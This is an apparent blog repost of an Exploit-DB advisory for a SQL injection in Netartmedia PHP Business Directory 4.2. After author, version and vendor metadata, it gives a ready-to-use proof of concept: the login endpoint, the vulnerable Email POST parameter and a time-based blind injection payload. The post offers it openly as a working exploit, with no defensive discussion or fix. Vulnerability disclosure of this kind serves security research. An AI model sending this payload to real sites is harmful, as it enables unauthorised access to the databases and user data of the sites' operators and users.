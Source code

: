```yaml
---
layout:     post
title:      "Netartmedia PHP Business Directory 4.2 - SQL Injection"
date:       2019-03-20 12:05
author:     "Ahmet Ümit BAYRAM"
category:   exploit
tags:       [sql, sqli, sql injection, exploit-db]
---
```

# Exploit Title: Netartmedia PHP Business Directory 4.2 - SQL Injection
# Date: 19.03.2019
# Exploit Author: Ahmet Ümit BAYRAM
# Vendor Homepage: https://www.phpbusinessdirectory.com/
# Demo Site: https://www.bizwebdirectory.com/
# Version: 4.2
# Tested on: Kali Linux
# CVE: N/A
 ----- PoC SQLi -----

Request: http://localhost/[PATH]/USERS/loginaction.php
Parameter: Email (POST)
Payload: Email=0'XOR(if(now()=sysdate()%2Csleep(0)%2C0))XOR'Z&Password=g00dPa%24%24w0rD&lang=en&mod=login
            
